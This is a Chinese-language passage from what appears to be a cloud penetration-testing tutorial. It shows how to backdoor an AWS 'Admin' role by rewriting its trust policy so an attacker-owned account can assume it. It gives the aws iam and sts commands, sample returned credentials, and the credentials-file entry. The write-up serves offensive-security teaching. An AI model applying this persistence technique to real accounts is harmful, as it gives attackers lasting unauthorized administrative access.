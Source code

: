 接下来，我们将使用 AWS CLI 使用此信任策略更新角色：

```
aws iam update-assume-role-policy --role-name Admin --policy-document file://trust-policy.json --profile Test 
```

如果一切都成功，则 AWS CLI 不应向控制台返回任何输出。否则，您将看到一个错误和一个关于出错原因的简短描述。如果我们想确认一切正常，我们可以使用 AWS CLI`get`该角色并再次查看信任策略文档：

```
aws iam get-role --role-name Admin --profile Test 
```

来自该命令的响应应该包括您刚刚上载的信任策略。

我们唯一需要做的另一件事是将角色的 ARN 保存在本地某个位置，这样我们就不会忘记它。在本例中，我们的目标角色的 ARN 为`arn:aws:iam::111111111111:role/Admin`。现在一切都完成了。

# 确认我们的访问

我们可以通过尝试从我们自己的攻击者帐户中`assume`我们的目标角色来测试我们新的持久性方法。已经有一个名为`MyPersonalUser`的本地 AWS CLI 配置文件，它是属于我个人 AWS 帐户的一组访问密钥。使用这些键，我应该能够运行以下命令：

```
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/Admin --role-session-name PersistenceTest --profile MyPersonalUser 
```

我们只需要提供所需凭据的角色的 ARN 和角色会话名称，该名称可以是与返回的临时凭据关联的任意字符串值。如果一切按计划进行，AWS CLI 应做出如下响应：

```
{
    "Credentials": {
        "AccessKeyId": "ASIATE66IJ1KVECXRQRS",
        "SecretAccessKey": "hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a",
        "SessionToken": "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ==",
        "Expiration": "2018-11-06T20:23:05Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAJTZAUYV2TQBZ2LXUK:PersistenceTest",
        "Arn": "arn:aws:sts::111111111111:assumed-role/Admin/PersistenceTest"
    }
}
```

完美的现在，我们所做的是使用我们自己的个人帐户凭据来检索目标 AWS 帐户的凭据。我们可以随时运行相同的`aws sts`API 调用，只要我们仍然是一个受信任的实体，并随时检索另一组临时凭证。

我们可以通过修改`~/.aws/credentials`文件使这些密钥可用于 AWS CLI。配置文件只需要额外的`aws_session_token`键，最终会将以下内容添加到我们的凭证文件中：

```
[PersistenceTest]
aws_access_key_id = ASIATE66IJ1KVECXRQRS
aws_secret_access_key = hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a
aws_session_token = "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ=="
```
